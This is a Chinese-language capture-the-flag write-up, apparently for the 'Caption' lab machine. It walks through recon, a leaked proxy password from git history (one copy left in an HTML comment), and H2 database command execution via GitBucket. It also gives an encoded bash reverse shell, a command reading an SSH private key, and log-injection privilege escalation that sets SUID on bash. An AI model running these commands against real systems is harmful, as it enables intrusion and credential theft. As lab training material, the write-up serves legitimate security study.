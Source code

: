 # Caption

> 本机 IP: 10.11.11.12
>
> 目标 IP: 10.11.11.11
>
> 参考 [wp](https://loghmariala.github.io/posts/Caption/)

```shell
$ nmap -sSVC -p- 10.11.11.11
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu
80/tcp   open  http       Werkzeug/3.0.1 Python/3.10.12
|_http-server-header: Werkzeug/3.0.1 Python/3.10.12
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions:
|     HTTP/1.1 301 Moved Permanently
|     content-length: 0
|     location: http://caption.htb
|_    connection: close
|_http-title: Caption Portal Login
8080/tcp open  http-proxy
|_http-title: GitBucket
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 5916
|     <!DOCTYPE html>
|     <html prefix="og: http://ogp.me/ns#" lang="en">
|     <head>
|     <meta charset="UTF-8" />
|     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=5.0" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <title>Error</title>
|     <meta property="og:title" content="Error" />
|     <meta property="og:type" content="object" />
|     <meta property="og:url" content="http://10.10.11.33:8080/nice%20ports%2C/Tri%6Eity.txt%2ebak" />
|     <meta property="og:image" content="http://10.10.11.33:8080/assets/common/images/gitbucket_ogp.png" />
...

$ vi /etc/host
[+] 10.10.11.33 caption.htb
```

访问 http://caption.htb/, 一个登录界面, 无法登录

访问 http://caption.htb:8080/, 为 GitBucket, 有两个仓库 Logservice 和 Caption-Portal; root:root 尝试登录成功

git clone 仓库 Caption-Portal, 查找 git hash 为 0e3ba... 提交中, config/haproxy/haproxy.cfg 有修改痕迹, 其中有删除字段:

<!-- ```cfg
userlist AuthUsers
        user margo insecure-password vFr&cS2#0!
``` -->

```cfg
userlist AuthUsers
        user margo insecure-password ⬛⬛⬛
```

使用 margo:⬛⬛⬛ 登录 http://caption.htb/ 成功, 但未发现利用点

Gitbucket 设置界面查找有 Database viewer 功能, 可执行 SQL 语句, 根据报错信息得知为 H2 数据库

```sql
-- Gitbacket 的 Database viewer 中执行SQL语句可远程执行命令

-- 这个好像不需要?
CREATE TABLE TEST (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL
);

-- 本机执行 nc -lvvp 2333

-- bash -i >& /dev/tcp/10.11.11.12/2333
-- base64 编码为
-- YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMS4xMS4xMi8yMzMzIDA+JjE=
CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMS4xMS4xMi8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}");';
```

或使用 [wp](https://loghmariala.github.io/posts/Caption/) 方法

```sql
-- 创建函数
CREATE ALIAS RUNEXEC AS $$
String shellexec(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}
$$;

-- id
CALL RUNEXEC('id')

-- 得到命令执行结果
org.h2.jdbc.JdbcSQLDataException:Data conversion error converting"uid=1000(margo) gid=1000(margo) groups=1000(margo)";SQL statement: CALL RUNEXEC('id'); [22018-199]

-- 获取ssh密钥
CALL RUNEXEC('cat /home/margo/.ssh/id_ecdsa')

org.h2.jdbc.JdbcSQLDataException:Data conversion error converting"-----BEGIN OPENSSH PRIVATE KEY----- ⬛⬛⬛ -----END OPENSSH PRIVATE KEY-----";SQL statement: CALL RUNEXEC('cat /home/margo/.ssh/id_ecdsa'); [22018-199]
```

本机创建文件`id_ecdsa`并将密钥复制其中

```shell
$ ssh -i id_ecdsa margo@caption.htb

margo@caption:~$ ls
... gitbucket.war user.txt
```

## Privilege Escalation

<!-- 以下均参考wp -->

使用 Thrift 客户端与目标计算机上运行的名为 LogService 的服务进行交互, 利用 LogService 中的漏洞来实现 RCE 并提权

克隆 Gitbucket 中的 Logservice 仓库, 使用 Thrift 从该文件生成 Python 客户端代码

```shell
margo@caption:~$ git clone http://caption.htb:8080/git/root/Logservice.git

margo@caption:~$ cd Logservice/

margo@caption:~/Logservice$ ls
... gen-go  log_service.thrift  server.go

margo@caption:~/Logservice$ thrift --gen py log_service.thrift

margo@caption:~/Logservice$ ls
... gen-py  log_service.thrift

# 在 /tmp 中创建恶意log文件
margo@caption:~/Logservice$ cd /tmp

margo@caption:~/Logservice$ vi malicious.log
[+] 127.0.0.1 "user-agent":"'; chmod +s /bin/bash #"
```

将文件夹 gen-py 复制到本机, 在 gen-py 下使用 python 脚本创建客户端

```python
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"

        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)

    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```

本机执行 python 脚本

```shell
margo@caption:~/Logservice$ ls -la /bin/bash
-rwsr-sr-x 1 root root ... /bin/bash

margo@caption:~/Logservice$ /bin/bash -p

bash-5.1# id
uid=1000(margo) gid=1000(margo) euid=0(root) egid=0(root) groups=0(root),1000(margo)

bash-5.1# whoami
root

bash-5.1# ls /root
... root.txt
```
